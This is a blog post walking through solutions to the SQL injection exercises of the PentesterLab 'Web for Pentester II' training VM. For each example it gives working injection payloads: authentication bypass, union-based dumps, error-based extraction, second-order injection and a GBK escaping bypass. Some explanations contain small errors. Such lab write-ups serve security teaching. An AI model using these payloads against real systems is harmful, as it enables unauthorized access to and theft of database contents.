 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: Simon
comments: true
summary: Solutions to SQL injection questions from Web for Pentester II Penterster Lab
categories: security
tags: 
 - security
 - sql injection
---
```


#  Background 
SQL injection is a type of vulnerability of many databases. It is often possible to insert your own sql query into the origin sql query to bypass the authentication page or to get sensitive information. There are a bunch of good examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each one in the tutorial [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you allocate >= 1 GB RAM, and setup host-only network. Open the page with the IP of the VM (get the IP using nmap or type ifconfig in the VM)

#  Solutions 
### Example 1
This is the most basic injection code. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it is better to perform this in username.
{% highlight sql %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight sql%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote `'` can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight sql%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


### Example 2
In this example, the number of users returned is restricted.
{% highlight sql %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


### Example 3
In this example, single quotes are removed in the query, but it's still breakable by using escape `\`. The query will become like
{% highlight sql %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

### Example 4
There is no text box, so look at the address bar. 
{% highlight sql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight sql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight sql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight sql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}

### Example 5
This is a union-based SQL injection.
{%highlight sql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}

### Example 6
Change the url to
{%highlight sql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight sql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


### Example 7
Pentester lab provides an error-pone statement, 
{%highlight sql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![errmsg](/img/2015-08-20-sql-injection-web-for-pentester-II-1.png){:width="600px"} 
Same as example 6, delete suffix or use union-based injection to display all users.


### Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight sql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


### Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight sql%}
呵' or 1=1 #
{%endhighlight%}



